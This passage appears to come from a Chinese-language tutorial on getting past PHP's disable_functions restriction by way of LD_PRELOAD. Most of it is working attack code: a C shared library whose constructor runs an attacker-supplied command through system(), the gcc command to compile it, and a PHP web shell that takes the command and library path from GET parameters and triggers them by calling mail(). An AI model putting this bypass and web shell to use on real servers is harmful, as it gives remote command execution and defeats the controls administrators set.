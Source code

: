 - 即便目标可以启用 sendmail，由于未将主机名添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts；

  （hosts文件是主机名和IP地址映射）

编写 bypass_disablefunc.c



```php
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

接着用以下语句编译 C 文件为共享对象文件：



```c
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

bypass_disablefunc.php，代码和 test.php 一致：



```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```
